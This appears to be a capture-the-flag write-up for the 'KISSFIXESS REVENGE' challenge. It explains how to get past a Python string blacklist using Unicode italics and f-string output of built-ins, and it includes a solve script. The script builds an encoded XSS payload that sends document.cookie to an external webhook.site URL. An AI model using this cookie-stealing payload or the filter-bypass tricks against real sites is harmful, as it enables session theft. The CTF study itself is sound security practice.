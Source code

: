 # KISSFIXESS REVENGE

```text
Okay, NOW ain't nobody gonna solve it.
```

points: `50`

solves: `76`

author: `hofill`

---

This is a sequel to the [KISSFIXESS](./KISSFIXESS.md) challenge

This time, more strings are banned:

```python
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "&", "%", "^", "#", "@", "!", "*", "-", "import", "eval", "exec", "os", ";", ",", "|", "JAVASCRIPT", "window", "atob", "btoa", "="]
```

Python evaluates `pow` as follows. Characters from the output can be used

```text
>>> pow
<built-in function pow>
```

![image](../images/k5.png)

`self` is not allowed, but italicized *self* :

![image](../images/k6.png)

Solve script (credits: [@CerealSoup](https://github.com/DarkGuy10)):

```python
from base64 import b64encode

substitutions = {
    "&": "${banned[0]}",
    "<": "${banned[1]}",
    ">": "${banned[2]}",
    "(": "${banned[3]}",
    ")": "${banned[4]}",
    ".": "${f'{𝘴𝘦𝘭𝘧}'[5]}",
    "l": "${f'{pow}'[4]}",
    "s": "${f'{𝘴𝘦𝘭𝘧}'[26]}",
    "window": "w${f'{pow}'[3]}ndow",
    "atob": "ato${f'{pow}'[1]}",
}


js_payload = b"fetch('https://webhook.site/51db469d-d555-4496-b6fc-9cc9d9344385/?flag=' + document.cookie);;"
# Extra ';' in the js_payload is to add padding since '=' is not allowed and the payload is going to be base64-encoded

encoded = b64encode(js_payload).decode()
payload = f"</div><SCRIPT>eval(window.atob(`{encoded}`))</SCRIPT>"

for key, sub in substitutions.items():
    payload = payload.replace(key, sub)

print(payload)
```

GOATed [Pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

